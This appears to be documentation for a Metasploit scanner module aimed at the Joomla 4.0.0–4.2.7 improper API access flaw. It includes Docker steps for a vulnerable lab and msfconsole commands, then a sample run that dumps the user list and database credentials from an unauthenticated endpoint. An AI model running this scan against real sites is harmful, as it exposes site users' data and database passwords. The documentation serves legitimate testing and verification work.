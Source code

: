 
## Vulnerable Application

Joomla versions between 4.0.0 and 4.2.7, inclusive, contain an improper API access vulnerability.
This vulnerability allows unauthenticated users access to webservice endpoints which contain
sensitive information.  Specifically for this module we exploit the users and config/application
endpoints.

This module was tested against Joomla 4.2.7 running on Docker.

## Install Joomla on Ubuntu 22.04

From https://www.techrepublic.com/article/how-to-deploy-joomla-docker/
```
sudo apt-get install docker.io -y
sudo docker network create joomla-network
sudo docker pull mysql:5.7
sudo docker pull joomla:4.2.7-php8.1-apache
sudo docker volume create mysql-data
sudo docker run -d --name joomladb  -v mysql-data:/var/lib/mysql --network joomla-network -e "MYSQL_ROOT_PASSWORD=PWORD" -e MYSQL_USER=joomla -e "MYSQL_PASSWORD=PWORD" -e "MYSQL_DATABASE=joomla" mysql:5.7
sudo docker volume create joomla-data
sudo docker run -d --name joomla -p 80:80 -v joomla-data:/var/www/html --network joomla-network -e JOOMLA_DB_HOST=joomladb -e JOOMLA_DB_USER=joomla -e JOOMLA_DB_PASSWORD=PWORD joomla
```

Browse to port 80, and finish the installation

## Verification Steps

1. Install the application, and finish the configuration
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/joomla_improper_access_checks`
4. Do: `set rhosts [ip]`
5. Do: `run`
6. You should get sensitive information about the users and configuration

## Scenarios

### Version 4.2.7 from Docker

```
└─$ ./msfconsole -qr joomla_improper.rb
[*] Processing joomla_improper.rb for ERB directives.
resource (joomla_improper.rb)> use auxiliary/scanner/http/joomla_api_improper_access_checks
resource (joomla_improper.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (joomla_improper.rb)> set verbose true
verbose => true
resource (joomla_improper.rb)> run
[*] Joomla version detected: 4.2.7
[+] Joomla version 4.2.7 is vulnerable
[*] Attempting user enumeration
[+] Users JSON saved to /root/.msf4/loot/20230416225106_default_1.1.1.1_joomla_users_jso_345565.json
[+] Joomla Users
============

 ID   Super User  Name    Username  Email          Send Email  Register Date        Last Visit Date  Group Names
 --   ----------  ----    --------  -----          ----------  -------------        ---------------  -----------
 400  *           joomla  joomla    none@none.com  1           2023-04-16 23:07:42                   Super Users

[*] Attempting config enumeration
[+] Config JSON saved to /root/.msf4/loot/20230416225106_default_1.1.1.1_joomla_config_js_812393.json
[+] Joomla Config
=============

 Setting      Value
 -------      -----
 db host      joomladb3
 db name      joomla_db
 db password  PWORD
 db prefix    l57cr_
 db prefix    0
 db user      root
 dbtype       mysqli

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
